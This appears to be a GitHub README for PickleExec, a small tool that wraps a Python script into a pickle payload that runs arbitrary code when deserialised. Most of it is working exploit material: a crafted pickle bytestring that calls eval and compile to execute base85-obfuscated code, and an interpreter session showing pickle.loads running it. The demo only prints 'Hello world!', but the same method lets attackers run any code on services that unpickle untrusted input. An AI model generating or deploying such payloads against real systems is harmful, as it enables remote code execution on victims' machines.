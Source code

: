 # PickleExec-python script for generating an exploit to run python code in pickle

## Usage:

Script to run in pickle:
```py
#HelloWorld.py
print('Hello world!')
```

Generate exploit:
```
Python script filename>HelloWorld.py
b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vimport base64;exec(base64.b85decode("aB^vGbSNiCWo&G3Aa`$aY-AxPDGC").decode())\nV-\nVexec\ntRtR.'
```

Executing:
```py
Python 3.9.1 (default, Dec 13 2020, 11:55:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pickle import loads
>>> loads(b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vimport base64;exec(base64.b85decode("aB^vGbSNiCWo&G3Aa`$aY-AxPDGC").decode())\nV-\nVexec\ntRtR.')
Hello world!
>>>
```
